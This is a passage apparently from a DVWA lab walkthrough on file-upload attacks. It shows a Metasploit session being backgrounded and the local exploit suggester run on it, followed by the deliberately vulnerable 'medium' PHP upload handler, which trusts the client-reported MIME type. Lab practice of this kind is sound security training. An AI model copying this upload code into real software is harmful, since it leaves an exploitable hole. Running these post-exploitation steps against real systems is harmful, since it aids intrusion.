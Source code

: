     ```shell
    meterpreter > bg
    [*] Backgrounding session 1...
    msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
    msf6 post(multi/recon/local_exploit_suggester) > show options

    Module options (post/multi/recon/local_exploit_suggester):

    Name             Current Setting  Required  Description
    ----             ---------------  --------  -----------
    SESSION                           yes       The session to run this module on
    SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


    View the full module info with the info, or info -d command.

    msf6 post(multi/recon/local_exploit_suggester) > set session 1
    session => 1
    msf6 post(multi/recon/local_exploit_suggester) > run

    [*] 127.0.0.1 - Collecting local exploits for php/linux...
    ```

## Security: Medium

> _When using the medium level, it will check the reported file type from the client when its being uploaded._

```php
# source code for medium security
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```
